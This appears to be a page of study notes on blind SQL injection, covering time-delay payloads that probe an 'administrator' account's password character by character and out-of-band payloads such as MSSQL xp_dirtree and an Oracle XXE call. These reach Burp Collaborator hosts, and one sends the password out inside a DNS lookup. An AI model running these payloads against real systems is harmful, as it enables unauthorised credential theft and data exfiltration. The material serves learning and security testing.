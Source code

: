 To check if administrator in the users table:

```sql
;SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
```

Password length:

```sql
;SELECT CASE WHEN (username='administrator' AND LENGTH(password)>20) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
```

Using this technique to get passwords 1 at a time:

```sql
';SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,1,1)='a') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
```

```sql
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```

### out-of-band (OAST) techniques

An application might carry out the same SQL query as the previous example but do it asynchronously. The application continues processing the user's request in the original thread, and uses another thread to execute a SQL query using the tracking cookie.

In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering out-of-band network interactions to a system that you control. These can be triggered based on an injected condition to infer information one piece at a time.

A variety of network protocols can be used for this purpose, but typically the most effective is **DNS**. Many production networks allow free egress of DNS queries

Example (MSSQl):

```sql
'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--
```

You can use Burp Collaborator to generate a unique subdomain and poll the Collaborator server to confirm when any DNS lookups occur.

```sql
' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual--
```

To exfiltrate data:

```sql
`'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--`
```

## MSSQL
